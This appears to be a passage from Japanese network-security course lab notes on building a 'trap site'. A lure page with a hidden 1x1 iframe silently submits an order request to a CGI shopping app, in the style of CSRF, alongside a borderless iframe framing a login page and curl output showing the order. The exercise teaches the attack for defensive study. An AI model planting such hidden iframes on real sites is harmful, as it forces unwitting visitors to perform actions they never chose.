 iframe の属性に `frameborder="0"` を追加する

```html
<meta http-equiv="content-type" charset="utf-8">
<html>
  <head>
  </head>
  <body>
    <iframe id="attack"
      width="300"  //iframeの幅（ピクセル）
      height="200" //iframeの高さ（ピクセル）
      src="http://localhost/login.html" frameborder="0">
    </iframe>
  </body>
</html>
```


## 罠サイトにおける気づきにくいiframeのページ埋め込み

wana2.html

```bash
sudo nano /var/www/html/wana2.html
```

```html
<meta http-equiv="content-type" charset="utf-8">
<html>
  <head>
  </head>
  <body>
    <h1>ネットワーク・セキュリティ演習で必ず単位が取れる方法</h1>
    <iframe id="attack"
            width="1"  //iframeの幅（ピクセル）
            height="1" //iframeの高さ（ピクセル）
            src="http://106.157.214.199/cgi-bin/kachatter.cgi?shohin=benz">
    </iframe>
  </body>
</html>
```


![実行結果](./images/nd08010.png)

### ターミナルから curlコマンドで入力

```bash
curl http://localhost/cgi-bin/kachatter.cgi?shohin=benz
```

コマンド実行結果

```
<meta http-equiv="content-type" charset="utf-8">
<html>
 <head></head>
<body>
<h1>ご注文の商品</h1>
benz
<p>ありがとうございました</p>
</body>
</html>
```
